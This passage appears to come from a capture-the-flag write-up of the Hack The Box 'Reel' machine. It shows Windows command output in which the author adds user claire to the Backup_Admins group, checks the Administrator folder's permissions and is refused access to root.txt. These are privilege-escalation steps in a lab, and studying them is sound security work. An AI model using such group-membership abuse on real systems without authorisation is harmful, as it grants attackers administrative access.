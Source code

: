 Now add claire:

```powershell
claire@REEL C:\Users\claire>net group backup_admins claire /add              
The command completed successfully.                                          


claire@REEL C:\Users\claire>net group backup_admins                          
Group name     Backup_Admins                                                 
Comment                                                                      

Members                                                                      

-----------------------------------------------------------------------------
--                                                                           
claire                   ranj                                                
The command completed successfully.   
```

Despite the fact that it shows claire now in the group, I had to log out and back in to get it to take effect.




# Shell as `Administrator`

### Enumeration

Administrator folder ACL :
```powershell
claire@REEL C:\Users>icacls Administrator                                   
Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)                               
              HTB\Backup_Admins:(OI)(CI)(F)                                 
              HTB\Administrator:(OI)(CI)(F)                                 
              BUILTIN\Administrators:(OI)(CI)(F)  
```

Cannot read `root.txt` file though :
```powershell
claire@REEL C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CC8A-33E1

 Directory of C:\Users\Administrator\Desktop

01/21/2018  02:56 PM    <DIR>          .
01/21/2018  02:56 PM    <DIR>          ..
11/02/2017  09:47 PM    <DIR>          Backup Scripts
10/28/2017  11:56 AM                32 root.txt
               1 File(s)             32 bytes
               3 Dir(s)  15,725,092,864 bytes free

claire@REEL C:\Users\Administrator\Desktop>type root.txt
Access is denied.
claire@REEL C:\Users\Administrator\Desktop>icacls root.txt
root.txt: Access is denied.
```
